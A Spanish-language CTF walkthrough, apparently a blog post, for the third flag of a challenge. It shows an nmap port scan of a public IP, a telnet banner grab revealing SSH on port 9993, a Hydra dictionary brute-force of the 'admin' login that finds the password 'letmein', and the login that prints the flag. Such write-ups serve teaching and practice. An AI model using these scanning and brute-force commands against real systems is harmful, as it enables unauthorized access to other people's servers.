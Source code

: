 ```yaml
---
layout: post
title:  Reto 3 Hacking CTF ... Flag del puerto 9993/tcp
---
```


Bien, nos vamos a la búsqueda de un tercer flag y nos fijaremos por seguir un orden secuencial, en el siguiente puerto abierto descubierto por nmap:  **9993/tcp**

Recordamos un extracto del escaneo :

``` markdown
#nmap -p- --open -v -Pn 82.165.37.232 -oG initScan
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-03 19:21 CET
Initiating Parallel DNS resolution of 1 host. at 19:21
Completed Parallel DNS resolution of 1 host. at 19:21, 0.03s elapsed
Initiating SYN Stealth Scan at 19:21
Scanning s21356626.onlinehome-server.info (82.165.37.232) [65535 ports]
Discovered open port 9999/tcp on 82.165.37.232
Discovered open port 9994/tcp on 82.165.37.232
Discovered open port 9991/tcp on 82.165.37.232
Discovered open port 9997/tcp on 82.165.37.232
......

`Discovered open port 9993/tcp on 82.165.37.232`
Discovered open port 9996/tcp on 82.165.37.232
Discovered open port 2222/tcp on 82.165.37.232
Completed SYN Stealth Scan at 9:22, 98.31s elapsed (65535 total ports)
Nmap scan report for s21356626.onlinehome-server.info (82.165.37.232)
Host is up (0.22s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE
2222/tcp  open  EtherNetIP-1
9991/tcp  open  issa
9992/tcp  open  issc
`9993/tcp  open  palace-2`

```

La definición del servicio *palace-2* que corre sobre el puerto 9993/tcp ,reconocido por nmap no nos dice nada. Lanzo una conexión telnet al puerto 9993/TCP para ver cómo me responde y .... 

``` 
root@ip-172-31-29-174:/home/ubuntu# telnet 82.165.37.232 9993
Trying 82.165.37.232...
Connected to 82.165.37.232.
Escape character is '^]'.
SSH-2.0-OpenSSH_7.7

```

¡Mira! : Nos ofrece una conexion SSH .
Así pues el servicio 9993/tcp, concretamente está a la escucha para ofrecer un servidor **SSH-2.0-OpenSSH_7.7** , pero se ha intentado ofuscar el servicio de conexión segura sustituyéndolo por el 443/tcp habitual:

Intentamos una conexión sin conocer credenciales

```
root@ip-172-31-29-174:/home/ubuntu# ssh -p 9993 usuariop@82.165.37.232
##########################################################
#                                                          #
#                                                          #
# Acceso denegado. Solo el usuario <admin> puede conectar.
#
#                                                          #
#                                                          #
############################################################
```

Vale pues intentaremos acceder con el usuario **admin**. Por fuerza bruta  y empleando una herramienta de descubrimiento de credenciales de acceso sobre servicios en red como Hydra, comprobando claves de diccionario cuyo origen es el listado de claves **nmap.lst** (obviamente de nmap), y concretamente sobre servidor el servidor SSH.  Como ya sabemos que el usuario es **admin** por la pista del banner, vamos a intentar descubrir la contraseña.

Tras varios minutos de espera de pruebas de **Hydra** , tenemos **éxito** :


```markdown

┌─[✗]─[root@parrot-virtual]─[/usr/share/wordlists]
└──╼ #hydra -l admin -P nmap.lst ssh://82.165.37.232:9993 -v -I
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-12 20:03:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 5010 login tries (l:1/p:5010), ~314 tries per task
[DATA] attacking ssh://82.165.37.232:9993/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://admin@82.165.37.232:9993
[INFO] Successful, password authentication is supported by ssh://82.165.37.232:9993
[ERROR] could not connect to target port 9993: Socket error: disconnected
..........
[VERBOSE] Retrying connection for child 9
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 4834 to do in 00:28h, 16 active
[ERROR] could not connect to target port 9993: Socket error: disconnected
...........
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 11
[ERROR] could not connect to target port 9993: Socket error: disconnected
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 11
  `[9993][ssh] host: 82.165.37.232   login: admin   password: letmein`
[STATUS] attack finished for 82.165.37.232 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-12 20:05:42
```

Para ver la imagen gráfica de la operación observamos la captura original:

<img src="{{ site.baseurl }}/public/Reto3_ssh.png">


Vamos conectarnos entonces por SSH a ese puerto con usuario **admin** y password **letmein** :

```

root@ip-172-31-29-174:/home/ubuntu# ssh -p 9993 admin@82.165.37.232
############################################################
#                                                          #
#                                                          #
# Acceso denegado. Solo el usuario <admin> puede conectar. #
#                                                          #
#                                                          #
############################################################
admin@82.165.37.232's password: 
Token 3: 8842130e8deeee7f821e77e14d69cb98
Connection to 82.165.37.232 closed.

```
Perfecto, ya hemos obtenido el tercer flag de la CTF:


>Token 3: 8842130e8deeee7f821e77e14d69cb98
